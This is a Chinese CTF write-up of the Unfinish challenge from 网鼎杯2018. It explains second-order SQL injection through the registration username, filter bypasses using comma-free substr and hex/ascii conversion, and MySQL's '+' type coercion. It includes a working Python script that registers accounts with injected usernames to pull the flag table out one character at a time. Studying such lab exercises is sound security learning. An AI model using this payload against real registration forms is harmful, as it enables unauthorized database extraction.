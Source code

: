 ## [网鼎杯2018]Unfinish



登录进去，发现`login.php`，然后目录扫描发现 `register.php`

注册后登陆进去，发现显示出来了我们的用户名username，这个是二次注入

<img src="https://s2.loli.net/2023/05/14/1wzRMkjAbtovp8L.png" alt="image-20230514180724754" style="zoom:50%;" />



我们猜测插入数据库的语句为：

```sql
insert into xxx values(email,username,password);
```



这里又学到一个新的东西：

```sql
select ''+database()+'';
```

![image-20230514181149881](https://s2.loli.net/2023/05/14/iveQg159RwbOLHz.png)

这样查询出来的结果为0，但是如果我们将 `database()` 进行hex编码：

![image-20230514181141241](https://s2.loli.net/2023/05/14/Nxiy2vfUlEDbncO.png)

发现可以查询出数据库名被hex编码后的结果

我们想用这样的思路查询flag：

![image-20230514181349021](https://s2.loli.net/2023/05/14/LRqQ9grasn7vKxc.png)

![image-20230514181255328](https://s2.loli.net/2023/05/14/aiLuU64zFAG2yTD.png)

发现hex值被截断了，因为其中包含了英文字母，我们再次hex编码一次：

![image-20230514181426680](https://s2.loli.net/2023/05/14/2kQOc9qJHuLnPBm.png)

我们发现flag两次hex编码后的值成了科学计数法，这样就可以逐字符盲注了。

还有另一种方法，使用`ascii()`将字符转为ascii码，这样就可以慢慢盲注了



但是我们不知道库名、表名、列名，这里别人是选择盲猜，猜flag在flag表中

我们先爆破一下过滤了哪些字符，发现 `information` `,` 被过滤了

![image-20230514182015544](https://s2.loli.net/2023/05/14/yXrRnZ3FsQoepCB.png)

由于是逐字符获取，所以我们需要使用 `substr()` 但是这个函数需要使用逗号。

但是有不需要逗号的写法： `substr(xxx from 1 for 1)`

我们直接写脚本：

```python
import requests
from bs4 import BeautifulSoup
import time
url = "http://62a3620e-e0a1-429c-8a2e-2afabf3aca80.node4.buuoj.cn:81/"

def get_flag():
    login = url + "login.php"
    register = url + "register.php"
    time.sleep(0.5)

    for i in range(1, 100):
        dataR = {
            'email': '{}2@x.com'.format(i),
            'username': "0'+ascii(substr((select * from flag) from {} for 1))+'0".format(i),
            'password': '1'
        }
        dataL = {
            'email': '{}2@x.com'.format(i),
            'password': '1'
        }
        requests.post(url=register,data=dataR)
        log = requests.post(url=login,data=dataL)
        soup = BeautifulSoup(log.text,'html.parser')
        flag = soup.find('span', class_='user-name')
        num = int(flag.text)
        print(chr(num),end="")

if  __name__=='__main__':
    get_flag()

```

这里复习了一下 爬虫的 bs4模块：

> BeautifulSoup4 (bs4) 是一个 Python 的 HTML/XML 解析库，**用于从 HTML 或 XML 中提取数据**。它提供了多种方法来定位和提取 HTML 或 XML 标记（tag），包括以下常用方法：
>
> 1. `BeautifulSoup()`：将 HTML 或 XML 文档转换为一个 BeautifulSoup 对象，便于使用各种方法提取数据。
>
> 2. `find()` 和 `find_all()`：在 HTML 或 XML 文档中查找指定的标签或一组标签，并返回一个或多个 Tag 对象。
>
> 3. `get()`：获取指定标签的指定属性的值。
>
> 4. `text` 属性：获取指定标签的文本内容。
>
> 5. `prettify()`：将 BeautifulSoup 对象的 HTML 或 XML 格式化输出，以便于阅读和调试。
>
> 以下是一个使用 bs4 的示例程序，演示如何从 HTML 文档中提取数据：
>
> ```python
> from bs4 import BeautifulSoup
> import requests
> 
> # 发送 HTTP GET 请求，并获取响应内容
> response = requests.get('https://www.example.com/')
> html_doc = response.content
> 
> # 将 HTML 文档转换为 BeautifulSoup 对象
> soup = BeautifulSoup(html_doc, 'html.parser')
> 
> # 查找第一个 h1 标签，并输出其文本内容
> h1_tag = soup.find('h1')
> print(h1_tag.text)
> 
> # 查找所有 a 标签，并输出其 href 属性的值和文本内容
> a_tags = soup.find_all('a')
> for a in a_tags:
>     print(a.get('href'), a.text)
> 
> # 格式化输出 BeautifulSoup 对象
> print(soup.prettify())
> ```
>
> 这个程序首先发送一个 HTTP GET 请求，获取 https://www.example.com/ 的响应内容。然后将响应内容转换为 BeautifulSoup 对象，并使用各种方法从 HTML 文档中提取数据，包括查找标签、获取属性值和文本内容，以及格式化输出 BeautifulSoup 对象。



这里我们使用了如下代码：

```python
soup = BeautifulSoup(log.text,'html.parser')
flag = soup.find('span', class_='user-name')
num = int(flag.text)
print(chr(num),end="")
```

先创建一个 `BeautifulSoup`对象，使用了html解析

然后使用对象的`find()`方法 ，用于查找 网页中第一个 `span`标签，并且类名为 `user-name` 的标签

然后使用了 `text`属性获取其中的文本，转为int后再转为字符输出







### 知识点

经过测试`mysql`中 `+`的作用是用来进行数学运算



两个数字相加，返回两数之和

![image-20230514183620161](https://s2.loli.net/2023/05/14/KVg8NMCA3PujBfy.png)



一个字符数字与一个数字相加，返回两数之和：

![image-20230514183710570](https://s2.loli.net/2023/05/14/W43bG1rIJNy9MEc.png)

一个字符与一个数字相加，返回数字本身：(把字符转化为了0，所以相加就是该数字)

![image-20230514184144830](https://s2.loli.net/2023/05/14/42AiUgnSxKBXVkt.png)

两个字符相加，返回数字0：

![image-20230514184214402](https://s2.loli.net/2023/05/14/UzhG2pOTuaMRPEC.png)



一个数字与一个以数字开头的字符串相加，返回该数字与该字符串第一个字符前的数字值之和

(原因可能是弱类型转化，把以数字开头的字符串后面的字符给去掉了)

![image-20230514184326783](https://s2.loli.net/2023/05/14/BALFxZ6aNh8blwg.png)

以字符开头的字符串与数值型相加，该字符串值为0

![image-20230514184551728](https://s2.loli.net/2023/05/14/kzKahwBOblPCij9.png)

空字符串与字符串相加，由于弱类型转化，所以为0

![image-20230514184730079](https://s2.loli.net/2023/05/14/RatnBsTcpbHIm1Z.png)

所以本题需要将flag转化为数值，才能盲注出来

